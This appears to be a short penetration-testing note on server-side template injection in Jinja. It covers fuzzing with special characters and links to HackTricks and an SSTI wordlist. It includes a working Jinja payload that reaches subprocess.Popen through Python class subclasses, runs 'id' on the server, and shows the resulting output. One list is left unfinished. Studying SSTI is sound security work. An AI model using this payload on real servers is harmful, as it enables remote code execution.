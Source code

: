 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
---
```

Server-side template injection is a vulnerability that occurs when an attacker can inject malicious code into a template that is executed on the server. This vulnerability can be found in various technologies, including Jinja.

To detect Server-Side Template Injection (SSTI), initially, **fuzzing the template** is a straightforward approach. This involves injecting a sequence of special characters (`${{<%[%'"}}%\`) into the template and analysing the differences in the server's response to regular data versus this special payload. Vulnerability indicators include:
# Guide

1. [SSTI (Server Side Template Injection) | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
2. Can access `subprocess.Popen` and use it to Remote Code Execution
```
python3 client.py '{{{}.__class__.__base__.__subclasses__()[400]("id", shell=True, stdout=-1).communicate()[0].decode()}}' | grep '<p>' <p>uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

## Wordlist

[SSTI/Wordlist at master · err0rr/SSTI · GitHub](https://github.com/err0rr/SSTI/blob/master/Wordlist)